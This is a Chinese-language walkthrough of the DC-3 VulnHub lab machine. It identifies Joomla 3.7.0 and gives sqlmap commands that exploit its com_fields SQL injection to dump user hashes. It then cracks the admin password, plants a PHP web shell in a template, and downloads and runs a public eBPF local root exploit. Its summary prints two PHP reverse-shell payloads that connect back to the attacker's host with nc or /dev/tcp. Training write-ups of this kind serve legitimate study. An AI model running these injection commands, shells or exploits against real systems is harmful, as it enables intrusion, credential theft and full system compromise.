 ## DC-3 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-3          | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`

![1](../src/vulnhub/dc_3/1.png)

### 访问Web并确定web应用

根据 Nmap 扫描结果可知，web 应用程序运行 **Joomla** 开源 CMS系统，但没有版本号

![2](../src/vulnhub/dc_3/2.png)

访问 **80** 端口，从首页中我们知道该系统存在账户 *admin*，并且有登录框，因此我们可以采取密码爆破。不过我们应该将它作为备用方案，因为这是一件费时的事。

既然我们已经知道了运行的程序，接下来的任务是找到它的版本号，并且根据版本号上网查找是否存在漏洞。

幸运的是，在 Debian 发行版中有针对于 Joomla 的检测工具，执行命令下载并运行

`apt-get install joomscan`

`joomscan -u http://192.168.1.108 `

![3](../src/vulnhub/dc_3/3.png)

根据检测结果，顺利得到 Joomla 的版本号：**3.7.0**

![4](../src/vulnhub/dc_3/4.png)

查看 *42033.txt*（**`/usr/share/exploitdb/exploits/php/webapps/42033.txt`**）

```sql
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

修改其中部分信息

```sql
sqlmap -u "http://192.168.1.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent --dbs -p list[fullordering] --batch
```

![5](../src/vulnhub/dc_3/5.png)

接下来就是 *sqlmap* 工具的使用

```sql
sqlmap -u "http://192.168.1.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomladb --tables -p list[fullordering] --batch
sqlmap -u "http://192.168.1.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomladb -T #__users --dump -p list[fullordering]
```

![6](../src/vulnhub/dc_3/6.png)

使用 *john* 工具进行密码爆破

![7](../src/vulnhub/dc_3/7.png)

至此我们得到账户和密码：`admin:snoopy`

### Getshell

使用账号密码登录系统（`http://192.168.1.108/administrator/`），并且在模板中新建 *shell.php* 文件，之后访问地址：`http://192.168.1.108/templates/protostar/shell.php`

![9](../src/vulnhub/dc_3/9.png)

在 Kali 上监听 **6677** 端口后查看系统内核和发行版

![10](../src/vulnhub/dc_3/10.png)

### 提权

根据内核版本搜索可利用漏洞

![11](../src/vulnhub/dc_3/11.png)

发现都是 **64** 位操作系统，但目标系统是 **32** 位，那我们搜索发行版本号试试

![12](../src/vulnhub/dc_3/12.png)

从中找出**本地提权**的可利用漏洞，那么就选择图中选中部分，查看`/usr/share/exploitdb/exploits/linux/exploits/linux/local/39772.txt`文本内容，看来需要我们下载压缩包，接下来照着提示内容做就行

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
unzip 39772.zip && cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
```

![8](../src/vulnhub/dc_3/8.png)

### 总结

1. 确认 web fingerprint 信息可以采用：

   1. `whatweb http://192.168.1.108`
   2. `curl -I http://192.168.1.108`
   3. Firefox 插件 Wappalyzer

2. PHP shell

   1. ```php
      <?php
      system('rm /tmp/aa;mkfifo /tmp/aa;cat /tmp/aa | /bin/bash -i 2>&1 | nc 192.168.1.112 6677 >/tmp/aa');
      ?>
      ```

   2. ```php
      <?php
      system("bash -c 'bash -i >& /dev/tcp/192.168.1.112/6677 0>&1' ");
      ?>
      ```

   3. weevely 工具生成



